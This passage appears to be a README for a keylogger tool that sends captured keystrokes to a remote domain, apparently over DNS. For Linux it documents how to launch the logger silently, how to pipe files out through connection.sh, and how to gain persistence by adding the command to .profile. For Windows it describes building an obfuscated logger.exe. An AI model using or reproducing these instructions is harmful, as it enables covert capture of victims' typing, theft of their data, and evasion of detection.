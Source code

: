 ![Personal Nameservers on Spaceship](./screenshots/CustomNS_Screenshot2.png)

This is the same as setting glue records.
# Client
## Linux
The Linux keylogger is two bash scripts. `connection.sh` is used by the `logger.sh` script to send the keystrokes to the server. If you want to manually send data, such as a file, you can pipe data to the `connection.sh` script. It will automatically establish a connection and send the data.
### `logger.sh`
```
Usage: logger.sh [-options] domain
Positional Arguments:
  domain: the domain to send data to
Options:
  -p path: give path to log file to listen to
  -l: run the logger with warnings and errors printed
```
To start the keylogger, run the command `./logger.sh [domain] && exit`. This will silently start the keylogger, and any inputs typed will be sent. The `&& exit` at the end will cause the shell to close on `exit`. Without it, exiting will bring you back to the non-keylogged shell. Remove the `&> /dev/null` to display error messages.

The `-p` option will specify the location of the temporary log file where all the inputs are sent to. By default, this is `/tmp/`.

The `-l` option will show warnings and errors. Can be useful for debugging.

`logger.sh` and `connection.sh` must be in the same directory for the keylogger to work. If you want persistance, you can add the command to `.profile` to start on every new interactive shell.
### `connection.sh`
```
Usage: command [-options] domain
Positional Arguments:
  domain: the domain to send data to
Options:
  -n: number of characters to store before sending a packet
```
## Windows
### Build
To build keylogging program, run `make` in the `windows` directory. To build with reduced size and some amount of obfuscation, make the `production` target. This will create the `build` directory for you and output to a file named `logger.exe` in the `build` directory.
